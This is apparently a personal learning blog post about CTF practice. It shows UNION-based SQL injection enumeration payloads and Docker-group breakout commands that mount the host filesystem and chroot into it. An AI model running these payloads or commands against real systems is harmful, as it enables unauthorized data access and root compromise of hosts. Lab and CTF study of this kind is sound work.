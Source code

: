 
#+STARTUP: showall indent
#+STARTUP: hidestars
#+OPTIONS: num:nil toc:nil
#+BEGIN_EXPORT html
---
title:  Stealing all the Cookies...
categories:
  - blog
tags:
    - SQLi
    - XSS
---
#+END_EXPORT

As mentioned before, I discoverd a major blindspot on the Basic SQLi. how to perform Union Based enumeration.
Yes thanks for THM to show me how weak my game is there :)

So I spend some time on INE eJPT path, to really get into the basics again.... and yes it's quite simple if you know and now I know.

I quess this is a Enumeration methoth anyone can remember :)

~' UNION SELECT NULL--~
~' UNION SELECT NULL,NULL--~
~' UNION SELECT NULL,NULL,NULL--~

~' UNION SELECT 'a',NULL,NULL,NULL--~
~' UNION SELECT NULL,'a',NULL,NULL--~
~' UNION SELECT NULL,NULL,'a',NULL--~
~' UNION SELECT NULL,NULL,NULL,'a'--~

More info can be found here:
https://portswigger.net/web-security/sql-injection/union-attacks


I spend some time on a CFT on THM, and finally made it. Learning some pritty cool stuff on excaping a docker container.

Reference:
https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

Basically if you are in the docker group, you can do the following:

~#Search the socket~
~find / -name docker.sock 2>/dev/null~
~#It's usually in /run/docker.sock~

If found, than generate a new image, and mount the host filesystem into you image and chroot into it... thats a pretty nice.
Although not that realistic I guess, but good for CTFs

~#List images to use one~
~docker images~
~#Run the image mounting the host disk and chroot on it~
~docker run -it -v /:/host/ ubuntu:18.04 chroot /host~
